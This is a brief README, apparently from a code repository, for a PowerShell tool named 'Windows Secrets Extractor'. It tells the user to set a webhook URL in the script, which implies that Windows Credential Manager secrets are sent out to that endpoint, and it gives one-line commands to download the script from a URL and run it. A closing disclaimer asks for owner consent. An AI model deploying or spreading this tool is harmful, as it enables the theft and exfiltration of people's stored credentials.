 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script : ``Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1``
2. Run the Script : ``cd $env:USERPROFILE;.\extractor.ps1``

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
